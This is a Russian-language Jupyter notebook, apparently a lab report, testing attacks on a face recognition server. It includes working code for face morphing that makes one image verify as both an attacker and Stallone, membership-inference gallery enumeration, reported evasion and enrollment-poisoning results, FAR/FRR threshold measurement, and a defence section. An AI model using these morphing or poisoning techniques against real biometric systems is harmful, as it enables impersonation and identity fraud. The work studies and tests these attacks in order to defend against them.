{'alpha': 0.1, 'face_in_morph': True, 'score_victim': 0.0972, 'same_victim': False, 'score_attacker': 0.9634, 'same_attacker': True, 'identify_top': 'Брэд Питт=0.8666; Эталоны-хорошие=0.8629; Эталоны-плохие



In [ ]:
# АТАКА 3: морфинг ДВУХ РАЗНЫХ людей + критерий "морф похож на обоих"
# v3: baseline "атакующий vs жертва", лица по bbox из /api/identify (без 422 "не найдено лицо"),
# колонка identify_top - какие имена сервер видит в морфе (используется в отчёте)

FACE_NF_MARKERS = ("не найдено лицо", "no face", "face not found", "лица не найдено")

def center_square(img, frac=0.95):
    # оставлено для совместимости с ячейкой картинок отчёта
    w, h = img.size
    s = int(min(w, h) * frac)
    l, t = (w - s) // 2, (h - s) // 2
    return img.crop((l, t, l + s, t + s)).resize((512, 512))

def _crop_pad(img, box, size=512):
    # вырезает окно box; что выходит за границы кадра - дополняет чёрным (лицо не режем)
    x1, y1, x2, y2 = [int(v) for v in box]
    w, h = img.size
    canvas = Image.new("RGB", (x2 - x1, y2 - y1), (0, 0, 0))
    ix1, iy1, ix2, iy2 = max(x1, 0), max(y1, 0), min(x2, w), min(y2, h)
    if ix2 > ix1 and iy2 > iy1:
        canvas.paste(img.crop((ix1, iy1, ix2, iy2)), (ix1 - x1, iy1 - y1))
    return canvas.resize((size, size), Image.LANCZOS)

def _identify_bbox(img):
    # bbox лица из ответа /api/identify; None = лицо не найдено или сервер не ответил
    try:
        p = identify_image(img)
        bb = p.get("bbox")
        return [float(v) for v in bb[:4]] if bb and len(bb) >= 4 else None
    except RuntimeError:
        return None

def prep_face(img, size=512, margin=0.35, label=""):
    # квадратный портрет, где лицо гарантированно видно целиком (проверено сервером)
    bb = _identify_bbox(img)
    if bb:
        x1, y1, x2, y2 = bb
        if x2 <= x1 or y2 <= y1:  # вдруг формат [x, y, w, h]
            x2, y2 = x1 + x2, y1 + y2
        fs = max(x2 - x1, y2 - y1)
        s = fs * (1 + 2 * margin)
        cx, cy = (x1 + x2) / 2, (y1 + y2) / 2
        out = _crop_pad(img, (cx - s / 2, cy - s / 2, cx + s / 2, cy + s / 2), size)
        if _identify_bbox(out):
            print(f"  [{label}] лицо найдено (bbox={[round(v) for v in bb]}) -> портрет {size}x{size}, "
                  f"лицо по центру, запас {int(margin * 100)}% (проверено сервером)")
            return out
        print(f"  [{label}] обрезка по bbox не помогла - пробую целый кадр с полями")
    w, h = img.size
    side = max(w, h)
    canvas = Image.new("RGB", (side, side), (0, 0, 0))
    canvas.paste(img, ((side - w) // 2, (side - h) // 2))
    out = canvas.resize((size, size), Image.LANCZOS)
    if _identify_bbox(out) is None:
        print(f"  [{label}] ВНИМАНИЕ: сервер не видит лицо даже на целом кадре - возьми другое фото "
              f"(лицо крупно, анфас, без сильных искажений)")
    else:
        print(f"  [{label}] портрет {size}x{size}: весь кадр на квадрате, без обрезки")
    return out

def compare_soft(img1, img2, note=""):
    # как compare_images, но "лицо не найдено" - валидный исход эксперимента, не падение
    try:
        return compare_images(img1, img2, note=note)
    except RuntimeError as e:
        if any(m in str(e).lower() for m in FACE_NF_MARKERS):
            return {"score": None, "same": False, "note": note + " [сервер: лицо не найдено]"}
        raise

if not (CONFIG["ATTACKER_PHOTO"] and CONFIG["VICTIM_PHOTO"]):
    print("Укажи CONFIG['ATTACKER_PHOTO'] (me.jpg) и CONFIG['VICTIM_PHOTO'] (st1.jpg).")
else:
    # --- Шаг 0. Baseline: атакующий и жертва сами по себе (должны быть НЕ похожи) ---
    print("Baseline: verify(me.jpg, st1.jpg) - разные люди, сходство должно быть НИЗКИМ:")
    rb = compare_soft(CONFIG["ATTACKER_PHOTO"], CONFIG["VICTIM_PHOTO"], note="baseline: атакующий vs жертва")
    verdict_b = "не похожи - контроль пройден" if not rb["same"] else "ПОХОЖИ?! проверь фото"
    print(f"  score = {rb['score']} (порог {CONFIG['THRESHOLD']}) -> {verdict_b}")
    SUMMARY.append({"attack": "3 morphing: baseline атакующий vs жертва", "result": f"score={rb['score']}"})

    # --- Шаг 1. Портреты с лицом целиком (детектор сервера подтверждает) ---
    print("\nГотовлю портреты: сервер сам показывает, где лицо (bbox в /api/identify), вырезаю его целиком.")
    A = prep_face(load_img(CONFIG["ATTACKER_PHOTO"]), label=CONFIG["ATTACKER_PHOTO"])
    B = prep_face(load_img(CONFIG["VICTIM_PHOTO"]), label=CONFIG["VICTIM_PHOTO"])
    A.save(EVID / "prep_attacker.jpg", quality=95)
    B.save(EVID / "prep_victim.jpg", quality=95)

    def morph_face_ok(m):
        # видит ли детектор лицо в морфе (тот же стек, что у сервера)
        try:
            return identify_image(m).get("bbox") is not None
        except RuntimeError as e:
            if any(mk in str(e).lower() for mk in FACE_NF_MARKERS):
                return False
            raise

    # --- Шаг 2. Сетка морфов по alpha ---
    rows = []
    for al in np.linspace(0, 1, 11):
        m = Image.blend(A, B, float(al))
        ok = morph_face_ok(m)
        rid, top = None, []
        if ok:
            rv = compare_soft(m, B, note=f"morph vs жертва, alpha={al:.1f}")
            ra = compare_soft(m, A, note=f"morph vs атакующий, alpha={al:.1f}")
            try:
                rid = identify_image(m, note="morph: identify")
                top = (rid["candidates"] or [])[:3]
            except RuntimeError:
                pass
        else:
            note = f"alpha={al:.1f}: детектор не нашёл лицо в морфе"
            rv = {"score": None, "same": False, "note": note}
            ra = {"score": None, "same": False, "note": note}
        row = {"alpha": round(float(al), 2), "face_in_morph": ok,
               "score_victim": rv["score"], "same_victim": rv["same"],
               "score_attacker": ra["score"], "same_attacker": ra["same"],
               "identify_top": "; ".join(f"{n}={s}" for n, s in top)}
        rows.append(row); print(row)

    # --- Шаг 3. Критерий успеха: морф похож на ОБОИХ ---
    good = [x for x in rows if x["same_victim"] and x["same_attacker"]]
    if good:
        best = min(good, key=lambda x: abs(x["alpha"] - 0.5))
        Image.blend(A, B, best["alpha"]).save(EVID / "morph_best.jpg", quality=95)
        print(f"\nМОРФ УСПЕШЕН при alpha={best['alpha']} - морф одновременно похож на атакующего и жертву "
              f"(обоих >= {CONFIG['THRESHOLD']}). Сохранён: {EVID / 'morph_best.jpg'}")
        SUMMARY.append({"attack": "3 morphing (атакующий + Сталлоне)",
                        "result": f"УСПЕХ при alpha={best['alpha']}"})
    else:
        print("\nОкно успеха не найдено: смотри колонку face_in_morph (где детектор теряет морф), "
              "проверь порог в CONFIG или возьми фото с более близкими ракурсами лиц.")
        SUMMARY.append({"attack": "3 morphing (атакующий + Сталлоне)", "result": "окно успеха не найдено"})

    with open(BASE / "attack3_morph.csv", "w", newline="", encoding="utf-8") as f:
        w = csv.DictWriter(f, fieldnames=list(rows[0].keys())); w.writeheader(); w.writerows(rows)
    xs = [x["alpha"] for x in rows]
    plt.figure(figsize=(6.4, 3.6), constrained_layout=True)
    plt.plot(xs, [x["score_victim"] if x["score_victim"] is not None else np.nan for x in rows], "o-", label="морф vs жертва")
    plt.plot(xs, [x["score_attacker"] if x["score_attacker"] is not None else np.nan for x in rows], "s-", label="морф vs атакующий")
    plt.axhline(CONFIG["THRESHOLD"], color="r", ls="--", lw=1, label="порог verify (0.3)")
    plt.xlabel("alpha (0=атакующий, 1=жертва)"); plt.ylabel("similarity"); plt.legend()
    plt.savefig(BASE / "attack3_morph.png", dpi=150); plt.show()


In [ ]:
# АТАКА 3-ФИКС: мелкая сетка alpha вокруг перехода (0.46..0.59, шаг 0.01)
# Первый прогон (шаг 0.1): при alpha=0.5 морф почти прошёл - (атакующий 0.384, жертва 0.261),
# при alpha=0.6 жертва уже 0.746, но атакующий упал до 0.145. Окно "оба >= 0.3", если оно есть,
# лежит между 0.5 и 0.55 - ищем шагом 0.01 на ГОТОВЫХ портретах из evidence (без пересборки).
pa, pv = EVID / "prep_attacker.jpg", EVID / "prep_victim.jpg"
if not (pa.exists() and pv.exists()):
    print("Нет готовых портретов - сначала запусти ячейку атаки 3 (она сохраняет prep_*.jpg).")
else:
    def _fine_grid(A, B, tag):
        rows, best = [], None
        for al0 in np.arange(0.46, 0.60, 0.01):
            al = round(float(al0), 2)
            m = Image.blend(A, B, al)
            rv = compare_soft(m, B, note=f"{tag}: morph vs жертва, alpha={al}")
            ra = compare_soft(m, A, note=f"{tag}: morph vs атакующий, alpha={al}")
            mn = None
            if isinstance(rv["score"], (int, float)) and isinstance(ra["score"], (int, float)):
                mn = min(rv["score"], ra["score"])
            row = {"alpha": al, "score_victim": rv["score"], "same_victim": rv["same"],
                   "score_attacker": ra["score"], "same_attacker": ra["same"], "min_both": mn}
            rows.append(row); print(row)
            if rv["same"] and ra["same"] and mn is not None and (best is None or mn > best[0]):
                best = (mn, al, m)
        return rows, best

    A, B = load_img(pa), load_img(pv)
    print("Прогон 1: портреты из атаки 3 (margin 0.35):")
    rows, best = _fine_grid(A, B, "margin0.35")

    if not best:
        print("\nПрогон 2: пересобираю портреты с меньшим запасом (margin 0.22) - меняется масштаб лица:")
        A2 = prep_face(load_img(CONFIG["ATTACKER_PHOTO"]), size=512, margin=0.22, label="me.jpg (margin 0.22)")
        B2 = prep_face(load_img(CONFIG["VICTIM_PHOTO"]), size=512, margin=0.22, label="st1.jpg (margin 0.22)")
        rows2, best2 = _fine_grid(A2, B2, "margin0.22")
        rows += rows2
        if best2:
            best = best2

    if best:
        mn, al, m = best
        m.save(EVID / "morph_best.jpg", quality=95)
        try:
            rid = identify_image(m, note="fine morph: identify")
            print(f"\nМОРФ УСПЕШЕН при alpha={al}: оба сходства >= {CONFIG['THRESHOLD']} "
                  f"(min из двух = {mn:.3f}). Сохранён в morph_best.jpg - перезапусти ячейку картинок №5.")
            print("  identify морфа:", rid["name"], rid["score"], (rid["candidates"] or [])[:3])
        except RuntimeError:
            print(f"\nМОРФ УСПЕШЕН при alpha={al} (min={mn:.3f}); identify морфа не прошёл (детектор не нашёл лицо).")
        SUMMARY.append({"attack": "3 morphing: мелкая сетка",
                        "result": f"УСПЕХ при alpha={al}, min(оба)={mn:.3f}"})
    else:
        closest = max(rows, key=lambda x: (x["min_both"] if x["min_both"] is not None else -1))
        print("\nОкно 'оба >= 0.3' на мелкой сетке не найдено. Ближайшая точка:", closest)
        print("  Это тоже результат для отчёта: морф сдвигает сходства навстречу "
              "(жертва 0.10->0.75, атакующий 1.0->0.11), но порог 0.3 проходит только с одной стороны. "
              "Частичный успех + аргумент для защиты (морфинг-детектор/пороговая политика).")
        SUMMARY.append({"attack": "3 morphing: мелкая сетка",
                        "result": f"окно не найдено, ближайшая alpha={closest['alpha']}"})

    with open(BASE / "attack3_fine.csv", "w", newline="", encoding="utf-8") as f:
        w = csv.DictWriter(f, fieldnames=list(rows[0].keys())); w.writeheader(); w.writerows(rows)


Прогон 1: портреты из атаки 3 (margin 0.35):
{'alpha': 0.46, 'score_victim': 0.1668, 'same_victim': False, 'score_attacker': 0.4424, 'same_attacker': True, 'min_both': 0.1668}
{'alpha': 0.47, 'score_victim': 0.1852, 'same_victim': False, 'score_attacker': 0.432, 'same_attacker': True, 'min_both': 0.1852}
{'alpha': 0.48, 'score_victim': 0.2094, 'same_victim': False, 'score_attacker': 0.4123, 'same_attacker': True, 'min_both': 0.2094}
{'alpha': 0.49, 'score_victim': 0.227, 'same_victim': False, 'score_attacker': 0.3943, 'same_attacker': True, 'min_both': 0.227}
{'alpha': 0.5, 'score_victim': 0.2526, 'same_victim': False, 'score_attacker': 0.3713, 'same_attacker': True, 'min_both': 0.2526}
{'alpha': 0.51, 'score_victim': 0.2985, 'same_victim': False, 'score_attacker': 0.3639, 'same_attacker': True, 'min_both': 0.2985}
{'alpha': 0.52, 'score_victim': 0.3202, 'same_victim': True, 'score_attacker': 0.3458, 'same_attacker': True, 'min_both': 0.3202}
{'alpha': 0.53, 'score_victim': 0.3994, 'sa

### Подготовка иллюстраций №5. Атака 3: морфинг

Тройка изображений «атакующий — морф — жертва»: морф признаётся системой похожим на двух разных людей одновременно. График зависимости сходства от alpha — `results/attack3_morph.png`. Ячейка выполняется после атаки 3 (использует её `center_square` и файл `morph_best.jpg`).




Сохранено: results\evidence\attack3_morph_trio.png


In [ ]:
# КАРТИНКИ ДЛЯ ОТЧЁТА 5: атака 3 — морфинг
mp = EVID / "morph_best.jpg"
if not mp.exists():
    print("Сначала запусти атаку 3 — она сохранит results/evidence/morph_best.jpg.")
else:
    best_alpha = ""
    c3 = BASE / "attack3_morph.csv"
    if c3.exists():
        rr = list(csv.DictReader(open(c3, encoding="utf-8")))
        good = [x for x in rr
                if x.get("same_victim") in ("True", "true", "1")
                and x.get("same_attacker") in ("True", "true", "1")]
        if good:
            b = min(good, key=lambda x: abs(float(x["alpha"]) - 0.5))
            best_alpha = f" (alpha={b['alpha']})"
    pa, pv = EVID / "prep_attacker.jpg", EVID / "prep_victim.jpg"
    img_att = load_img(pa) if pa.exists() else center_square(load_img(CONFIG["ATTACKER_PHOTO"]))
    img_vic = load_img(pv) if pv.exists() else center_square(load_img(CONFIG["VICTIM_PHOTO"]))
    fig, axes = plt.subplots(1, 3, figsize=(9.6, 4.0), constrained_layout=True)
    axes[0].imshow(img_att)
    axes[0].set_title(f"атакующий ({CONFIG['ATTACKER_PHOTO']})", fontsize=10)
    axes[1].imshow(load_img(mp)); axes[1].set_title(f"морф{best_alpha}", fontsize=10)
    axes[2].imshow(img_vic)
    axes[2].set_title(f"жертва ({CONFIG['VICTIM_PHOTO']})", fontsize=10)
    for ax in axes:
        ax.axis("off")
    fig.suptitle("Атака 3: морф распознаётся как оба человека сразу", fontsize=11)
    fig.savefig(EVID / "attack3_morph_trio.png", dpi=150)
    plt.show()
    print("Сохранено:", EVID / "attack3_morph_trio.png")


## Атака 4. Перечисление галереи (membership inference, lab10)

На вход подаются фотографии всех групп; анализируется состав ответов. Система возвращает имя профиля и оценку сходства для **любого** изображения, включая отсутствующие в галерее, — в этом состоит утечка. Группы: `me*`/`ne*` — атакующий (в галерее как «Брэд Питт»); `st*` — жертва (зачислена в атаке 2); `st_mol` — жертва в молодом возрасте (проверка устойчивости профиля к возрастным изменениям); `tob*` — третий участник; `sh*`/`vl*` — контрольные лица вне галереи (никогда не зачислялись, в базе LFW отсутствуют) — чистый negative control: ответы на них не искажены случайным сходством с профилями.

Дополнительное наблюдение: профиль жертвы задвоен — в базе LFW присутствует штатный профиль `Sylvester_Stallone`, поэтому ответы системы могут содержать оба профиля. Даже для лица, отсутствующего в галерее, сервер называет имена «похожих» людей с оценками; по таким ответам возможно восстановление состава галереи.


In [ ]:
# АТАКА 4: сканируем все группы -> кого система "знает" и какие имена выдаёт
GROUPS = [
    ("атакующий (me*)", CONFIG["ATTACKER_PHOTOS"]),
    ("самозаливка (ne*)", CONFIG["OLD_SELF_PHOTOS"]),
    ("жертва: Сталлоне (st*)", CONFIG["VICTIM2_PHOTOS"] + [CONFIG["VICTIM2_TEST"]]),
    ("не зачисляли (tob*)", CONFIG["TOB_PHOTOS"]),
    ("не зачисляли (sh*)", CONFIG["SH_PHOTOS"]),
    ("не зачисляли (vl*)", CONFIG["VL_PHOTOS"]),
]
rows = []
for gname, fl in GROUPS:
    for f in fl:
        p = pathlib.Path(f)
        if not p.exists():
            print(f"  !! файла нет: {f}")
            continue
        try:
            r = identify_image(str(p), note="membership")
            top = (r["candidates"] or [])[:3]
            rows.append({"group": gname, "file": p.name, "name": r["name"],
                         "score": r["score"], "recognized": r["recognized"],
                         "top3": "; ".join(f"{n}={s}" for n, s in top)})
            print(f"  {gname:26s} {p.name:12s} -> {str(r['name']):30s} score={r['score']}")
        except RuntimeError as e:
            rows.append({"group": gname, "file": p.name, "name": None,
                         "score": None, "recognized": False, "top3": ""})
            print(f"  {gname:26s} {p.name:12s} -> ОШИБКА: {str(e)[:90]}")

# итоги по группам
print("\nИтоги по группам:")
for gname, fl in GROUPS:
    g = [x for x in rows if x["group"] == gname and pathlib.Path(x["file"]).exists()]
    if not g:
        continue
    rate = sum(1 for x in g if x["recognized"]) / len(g)
    leak = sum(1 for x in g if x["top3"]) / len(g)
    print(f"  {gname:26s} опознано {rate:.0%}, имена кандидатов выданы для {leak:.0%} фото")

with open(BASE / "attack4_membership.csv", "w", newline="", encoding="utf-8") as f:
    w = csv.DictWriter(f, fieldnames=["group", "file", "name", "score", "recognized", "top3"])
    w.writeheader(); w.writerows(rows)
rate = sum(1 for x in rows if x["recognized"]) / max(len(rows), 1)
SUMMARY.append({"attack": "4 membership inference",
                "result": f"система выдала имена/оценки для {rate:.0%} фото всех групп (CSV: attack4_membership.csv)"})
print("\nЧитай таблицу: tob*, sh*, vl* мы не зачисляли - их вердикты и есть чистая проверка membership; "
      "st_mol показывает, узнает ли профиль жертву в молодости.")


  атакующий (me*)            me.jpg       -> Брэд Питт                      score=0.8671
  атакующий (me*)            me2.jpg      -> Брэд Питт                      score=0.8421
  атакующий (me*)            me3.jpg      -> Эталоны-хорошие                score=0.7337
  атакующий (me*)            me4.jpg      -> Эталоны-хорошие                score=0.7753
  атакующий (me*)            me5.jpg      -> Эталоны-хорошие                score=0.8668
  самозаливка (ne*)          ne.jpg       -> Брэд Питт                      score=0.8122
  самозаливка (ne*)          ne2.jpg      -> Брэд Питт                      score=0.8374
  самозаливка (ne*)          ne3.jpg      -> Брэд Питт                      score=0.8618
  жертва: Сталлоне (st*)     st1.jpg      -> Sylvester_Stallone             score=0.6506
  !! файла нет: st2.jpg
  !! файла нет: st3.jpg
  жертва: Сталлоне (st*)     st4.jpg      -> Sylvester_Stallone             score=0.7459
  жертва: Сталлоне (st*)     st_mol.jpg   -> None             

## Метрики FAR/FRR (основание для выбора порога, lab11/lab13)

Пары фотографий формируются непосредственно из групп CONFIG (каталог с подпапками не требуется):

- **FAR** (False Accept Rate) — доля пар изображений **разных** людей, ошибочно принятых системой как один человек (score ≥ порога);
- **FRR** (False Reject Rate) — доля пар изображений **одного** человека, ошибочно отклонённых.

Группы: атакующий (`me*` + `ne*` — совместимость групп проверяется автоматически через verify), жертва (`st*`), третий участник (`tob*`). Метрики вычисляются для двух порогов: **0.3** (serverный verification_threshold) и **0.6** (порог identify); строится гистограмма распределений сходств — обоснование выбора порога в разделе «Защита». Ограничение: выборка мала (3–4 человека), значения демонстрируют методику измерения и не претендуют на сертификационную точность.


me.jpg vs ne.jpg: score=0.7114 -> один человек, объединяю в группу «атакующий»
Группы для пар: {'атакующий': 8, 'Сталлоне': 2, 'tob': 6, 'sh': 6, 'vl': 2}

FAR (чужие приняты за своих) @T=0.3: 0% на 112 парах | @T=0.6: 0%
FRR (свои отвергнуты)       @T=0.3: 3% на 38 парах | @T=0.6: 53%
Средний сходства: свои 0.589 vs чужие 0.013, разрыв = 0.577





Важно для раздела «Защита»: если FAR при пороге 0.3 высокий - серверный порог слишком мягкий, это готовый аргумент поднять его и калибровать по гистограмме.


In [ ]:
# Замер FAR/FRR по группам из CONFIG (подпапки не нужны)
def _score(a, b, note):
    try:
        return compare_images(a, b, note=note).get("score")
    except RuntimeError as e:
        print(f"  !! пара {note}: {str(e)[:90]}")
        return None

# --- 0) me* и ne* - один человек? Проверяем фактом, а не допущением ---
s_mn = _score(CONFIG["TEST_PHOTO"], CONFIG["OLD_SELF_PHOTOS"][0], "me|ne: один человек?")
same_person = isinstance(s_mn, (int, float)) and s_mn >= 0.5
print(f"me.jpg vs ne.jpg: score={s_mn} -> "
      + ("один человек, объединяю в группу «атакующий»" if same_person else "похожи слабо, считаю разными людьми"))

me_group = list(CONFIG["ATTACKER_PHOTOS"]) + (list(CONFIG["OLD_SELF_PHOTOS"]) if same_person else [])
groups = {"атакующий": [p for p in me_group if pathlib.Path(p).exists()],
          CONFIG["VICTIM2_NAME"]: [p for p in CONFIG["VICTIM2_PHOTOS"] if pathlib.Path(p).exists()],
          "tob": [p for p in CONFIG["TOB_PHOTOS"] if pathlib.Path(p).exists()],
          "sh": [p for p in CONFIG["SH_PHOTOS"] if pathlib.Path(p).exists()],
          "vl": [p for p in CONFIG["VL_PHOTOS"] if pathlib.Path(p).exists()]}
if not same_person and pathlib.Path(CONFIG["OLD_SELF_PHOTOS"][0]).exists():
    groups["ne"] = list(CONFIG["OLD_SELF_PHOTOS"])
print("Группы для пар:", {k: len(v) for k, v in groups.items()})

# --- 1) FRR: пары ОДНОГО человека (внутри групп), до 12 пар на группу ---
frr_rows = []
for g, fs in groups.items():
    cnt = 0
    for a, b in itertools.combinations(fs, 2):
        frr_rows.append({"pair": g, "score": _score(a, b, f"FRR {g}: {a}|{b}")})
        cnt += 1
        if cnt >= 12:
            break

# --- 2) FAR: пары РАЗНЫХ людей (между группами), до 12 пар на пару групп ---
far_rows = []
gnames = list(groups)
for i, j in itertools.combinations(range(len(gnames)), 2):
    cap = 0
    for a, b in itertools.product(groups[gnames[i]], groups[gnames[j]]):
        far_rows.append({"pair": f"{gnames[i]}|{gnames[j]}", "score": _score(a, b, f"FAR {gnames[i]}|{gnames[j]}: {a}|{b}")})
        cap += 1
        if cap >= 12:
            break

# --- 3) Метрики по двум порогам ---
T_SERVER = CONFIG["THRESHOLD"]   # 0.3 - verification_threshold сервера
T_IDENT = 0.6                    # порог identify (из ответа сервера)
def _pct(x):
    return f"{x:.0%}" if isinstance(x, (int, float)) else "нет данных"
def _acc(rows, T):
    sc = [x["score"] for x in rows if isinstance(x["score"], (int, float))]
    if not sc:
        return None, 0
    return sum(1 for s in sc if s >= T) / len(sc), len(sc)

far1, nf = _acc(far_rows, T_SERVER); far2, _ = _acc(far_rows, T_IDENT)
acc_g1, ng = _acc(frr_rows, T_SERVER); acc_g2, _ = _acc(frr_rows, T_IDENT)
frr1 = (1 - acc_g1) if acc_g1 is not None else None
frr2 = (1 - acc_g2) if acc_g2 is not None else None
print(f"\nFAR (чужие приняты за своих) @T={T_SERVER}: {_pct(far1)} на {nf} парах | @T={T_IDENT}: {_pct(far2)}")
print(f"FRR (свои отвергнуты)       @T={T_SERVER}: {_pct(frr1)} на {ng} парах | @T={T_IDENT}: {_pct(frr2)}")
g_sc = [x["score"] for x in frr_rows if isinstance(x["score"], (int, float))]
i_sc = [x["score"] for x in far_rows if isinstance(x["score"], (int, float))]
if g_sc and i_sc:
    mg, mi = float(np.mean(g_sc)), float(np.mean(i_sc))
    print(f"Средний сходства: свои {mg:.3f} vs чужие {mi:.3f}, разрыв = {mg - mi:.3f}")

# --- 4) Гистограмма распределений + CSV ---
if g_sc and i_sc:
    plt.figure(figsize=(6.4, 3.6), constrained_layout=True)
    plt.hist(i_sc, bins=14, alpha=0.65, label="разные люди (импостёры)")
    plt.hist(g_sc, bins=14, alpha=0.65, label="один человек (свои)")
    for T, c in ((T_SERVER, "g"), (T_IDENT, "r")):
        plt.axvline(T, ls="--", lw=1, color=c, label=f"порог {T}")
    plt.xlabel("similarity (verify)"); plt.ylabel("число пар"); plt.legend()
    plt.savefig(BASE / "farfrr_hist.png", dpi=150); plt.show()

with open(BASE / "metrics_far_frr.csv", "w", newline="", encoding="utf-8") as f:
    w = csv.DictWriter(f, fieldnames=["type", "pair", "score"])
    w.writeheader()
    for x in far_rows: w.writerow({"type": "FAR", **x})
    for x in frr_rows: w.writerow({"type": "FRR", **x})
SUMMARY.append({"attack": "метрики FAR/FRR",
                "result": (f"FAR={_pct(far1)}/{_pct(far2)} (@0.3/@0.6), FRR={_pct(frr1)}/{_pct(frr2)} "
                           f"на {nf}+{ng} парах; гистограмма: farfrr_hist.png")})
print("\nВажно для раздела «Защита»: если FAR при пороге 0.3 высокий - серверный порог слишком мягкий, "
      "это готовый аргумент поднять его и калибровать по гистограмме.")


Вывод: порог 0.6 для 1:1 плохой — он режет больше половины честных правильных пар, хотя чужих и так отсекает. Причина: 0.6 — это порог identify (1:N), а не verify (1:1). В задаче 1:N нужно выбирать лучшего из тысяч кандидатов, там высокий порог оправдан (иначе случайные совпадения в большой базе). В 1:1 сравниваются всего два фото — и 0.6 просто «пережат».


Сдвигаем порог вправо (например, к 0.6) → FAR не меняется (чужие и так слева), но FRR резко растёт (свои начинают попадать в «отвергнутые»).

Сдвигаем порог влево (например, к 0.1) → FRR падает, но FAR растёт (начинаешь принимать чужих).

Идеальная точка — где-то в «пустой зоне» между горками: там и FAR, и FRR близки к нулю. Для этих данных это примерно 0.3.

## Сводка результатов и материалы для отчёта

1. **Модель угроз** — вводный раздел настоящего ноутбука.
2. **Разведка**: состав ответа identify (имена и оценки сходства — утечка информации); `results/evidence/openapi_routes.json` — карта маршрутов, полученная с сервера через `/openapi.json` (information disclosure).
3. **Атаки 1–4**: таблицы `results/attack*.csv`, графики `results/*.png`, материалы `results/evidence/`.
4. **Метрики** FAR/FRR и обоснование порога решения (пример ложного отказа: сходство 0.39 при пороге 0.42).
5. **Меры защиты** (lab11/lab13): контроль качества входных изображений; хранение порога решения только на сервере; авторизация и подтверждение личности при зачислении в галерею, журналирование операций; детектирование морфов и liveness-проверки; ограничение частоты запросов; исключение оценок сходства из ответов API. Для каждой меры — повторный прогон соответствующей атаки (сценарий «до/после»).
6. **Иллюстрации**: итоговая ячейка собирает все изображения в `results/report_images/` (фотографии участников, crop от сервера, примеры искажений, тройка «атакующий — морф — жертва», результаты атаки 2, сводный график атаки 1a).

Терминология для отчёта: атака 1 — evasion (FGSM/PGD-аналог через score-оракул); атака 2 — data poisoning / enrollment attack; атака 3 — face morphing (impersonation); атака 4 — membership inference и утечка типа model inversion; метрики — FAR/FRR (аналог ROC-анализа).


In [ ]:
# Сводная таблица результатов
if SUMMARY:
    with open(BASE / "summary.csv", "w", newline="", encoding="utf-8") as f:
        w = csv.DictWriter(f, fieldnames=["attack", "result"]); w.writeheader(); w.writerows(SUMMARY)
    print(f"{'Атака':45s} | Результат")
    print("-" * 100)
    for s in SUMMARY:
        print(f"{s['attack']:45s} | {s['result']}")
    print("\nФайл: results/summary.csv")
else:
    print("Пока нет результатов — запускай ячейки атак по порядку.")

Атака                                         | Результат
----------------------------------------------------------------------------------------------------
1a evasion (искажения)                        | ASR = 4% на 28 пробах
1b evasion (итеративный подбор)               | similarity 0.866 -> 0.726
2a poisoning (имперсонация другого человека)  | «Сталлоне» в ответе не появился
2a-фикс: имперсонация (чистка + флуд)         | УСПЕХ: me.jpg -> «Сталлоне», similarity=0.6677
2b порча эталонов                             | кандидаты: [('Брэд Питт', 0.866), ('Эталоны-хорошие', 0.8636), ('Эталоны-плохие', 0.7951)]
3 morphing: baseline атакующий vs жертва      | score=0.0982
3 morphing (атакующий + Сталлоне)             | окно успеха не найдено
3 morphing: мелкая сетка                      | УСПЕХ при alpha=0.52, min(оба)=0.320
4 membership inference                        | система выдала имена/оценки для 40% фото всех групп (CSV: attack4_membership.csv)
метрики FAR/FRR                     

### Сборка иллюстраций отчёта в один каталог

Ячейка копирует все PNG из `results/evidence/` и `results/` в `results/report_images/` — единый каталог для вставки изображений в текст отчёта. Выполняется последней.


In [ ]:
# КАРТИНКИ ДЛЯ ОТЧЁТА 6: сборка всего в results/report_images/
import shutil
dst = BASE / "report_images"; dst.mkdir(exist_ok=True)
copied = []
for folder in (EVID, BASE):
    for pat in ("*.png", "*.jpg"):
        for p in sorted(folder.glob(pat)):
            shutil.copy2(p, dst / p.name); copied.append(p.name)
print(f"Собрано {len(copied)} файлов в {dst}:")
for n in copied:
    print("  -", n)

print("""
Как разложить картинки по разделам отчёта:
  Подготовка / модель угроз . photos_overview.png, photos_me.png, photos_bradpitt.png
  Разведка (утечка данных) .. leak_what_server_returns.png, openapi_routes.json,
                              твои скриншоты Network/Response и веб-интерфейса
